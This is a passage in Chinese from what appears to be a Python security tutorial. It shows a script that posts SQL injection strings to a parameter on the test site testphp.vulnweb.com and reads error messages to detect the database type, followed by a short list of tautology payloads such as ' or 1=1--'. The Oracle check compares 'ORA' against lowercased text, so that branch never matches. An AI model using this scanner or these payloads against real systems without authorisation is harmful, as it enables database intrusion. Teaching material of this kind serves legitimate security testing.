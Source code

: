 使用 Python，我们可以构建一个简单的脚本，从`sql-attack-vector.txt`文本文件中读取可能的 SQL 攻击向量，并检查注入特定字符串的输出结果。目标是从识别易受攻击的参数的 URL 开始，并将原始 URL 与攻击向量组合在一起。

您可以在`sql_injection`文件夹中的`test_url_sql_injection.py`文件中找到以下代码：

```py
import requests url = "http://testphp.vulnweb.com/listproducts.php?cat="

with open('sql-attack-vector.txt') as file:
for payload in file:
    print ("Testing "+ url + payload)
    response = requests.post(url+payload)
    #print(response.text)
    if "mysql" in response.text.lower():
        print("Injectable MySQL detected")
        print("Attack string: "+payload)
    elif "native client" in response.text.lower():
        print("Injectable MSSQL detected")
        print("Attack string: "+payload)
    elif "syntax error" in response.text.lower():
        print("Injectable PostGRES detected")
        print("Attack string: "+payload)
    elif "ORA" in response.text.lower():
        print("Injectable Oracle detected")
        print("Attack string: "+payload)
    else:
        print("Not Injectable")
```

您可以在`sql_injection`文件夹中的`sql-attack-vector.txt`文件中找到以下代码：

```py
" or "a"="a
" or "x"="x
" or 0=0 #
" or 0=0 --
" or 1=1 or ""="
" or 1=1--
```

执行`test_url_sql_injection.py`时，我们可以看到易受多个向量攻击的可注入 cat 参数：
